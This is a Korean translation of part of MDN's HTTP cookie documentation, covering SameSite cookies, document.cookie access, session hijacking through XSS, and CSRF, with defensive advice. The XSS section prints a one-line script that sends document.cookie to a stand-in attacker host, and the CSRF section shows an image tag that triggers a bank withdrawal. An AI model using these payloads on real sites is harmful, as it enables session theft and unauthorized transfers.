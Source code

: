 
### SameSite 쿠키

`SameSite` 쿠키는 쿠키가 cross-site 요청과 함께 전송되지 않았음을 요구하게 만들어, cross-site 요청 위조 공격([CSRF](https://developer.mozilla.org/ko/docs/Glossary/CSRF))에 대해 어떤 보호 방법을 제공한다. `SameSite` 쿠키는 여전히 실험 중이며 모든 브라우저에 의해 아직 제공되지 않는다.



### Document.cookie를 사용한 자바스크립트 접근

새로운 쿠키들은 [`Document.cookie`](https://developer.mozilla.org/ko/docs/Web/API/Document/cookie)를 사용해 만들어질 수도 있으며, `HttpOnly` 플래그가 설정되지 않은 경우 기본의 쿠키들은 자바스크립트로부터 잘 접근될 수 있습니다

```js
document.cookie = "yummy_cookie=choco"; 
document.cookie = "tasty_cookie=strawberry"; 
console.log(document.cookie); 
// logs "yummy_cookie=choco; tasty_cookie=strawberry"
```

아래 [보안](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#Security) 섹션에서 다루고 있는데로 보안 관련 내용들을 잘 알아두자. 자바스크립트에서 이용 가능한 쿠키들은 XSS를 통해 감청될 수 있다.



## 보안

> 기밀 혹은 민감한 정보는 전체 메커니즘이 본질적으로 위험하기 때문에 HTTP 쿠키 내에 저장되거나 전송되어서는 안됩니다.



### 세션 하이재킹과 XSS

쿠키는 대개 웹 애플리케이션에서 사용자와 그들의 인증된 세션을 식별하기 위해 사용되곤 한다. 그래서 쿠키를 가로채는 것은 인증된 사용자의 세션 하이재킹으로 이어질 수 있습니다. 쿠키를 가로채는 일반적인 방법은 소셜 공학 사용 혹은 애플리케이션 내 [XSS](https://developer.mozilla.org/ko/docs/Glossary/XSS) 취약점을 이용하는 것을 포함합니다.

```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

`HttpOnly` 쿠키 속성은 자바스크립트를 통해 쿠키 값에 접근하는 것을 막아 이런 공격을 누그러뜨리는데 도움을 줄 수 있습니다.



### Cross-site 요청 위조 (CSRF)

[위키피디아](https://en.wikipedia.org/wiki/HTTP_cookie#Cross-site_request_forgery)에 [CSRF](https://developer.mozilla.org/ko/docs/Glossary/CSRF)에 대한 좋은 예제가 있습니다. 위키피디아의 예와 같은 상황에서, 당신의 은행 서버에 돈을 입금하는 실제 요청 대신에, 실제로는 이미지가 아닌 이미지를 포함시키고 있습니다(예를 들어 필터링되지 않은 채팅이나 포럼 페이지 내에)

```html
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

이제, 당신이 당신의 은행 계좌에 로그인하고 당신의 쿠키가 여전히 유효하다면(그리고 별 다른 검증 절차가 존재하지 않는다면), 해당 이미지를 포함하고 있는 HTML을 로드하자마자 돈이 송금될 것입니다. 이런 일들이 벌어지는 것을 방지하기 위한 몇 가지 기술이 있습니다:

- [XSS](https://developer.mozilla.org/ko/docs/Glossary/XSS)와 마찬가지로, 입력 필터링은 중요한 문제이다.
- 모든 민감한 동작에 필수로 요구되는 확인 절차가 항상 수행되도록 한다.
- 민감한 동작에 사용되는 쿠키는 짧은 수명만 갖도록 한다.
- 좀 더 많은 예방 팁은 [OWASP CSRF 예방 치트 시트](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet)를 참고하자.
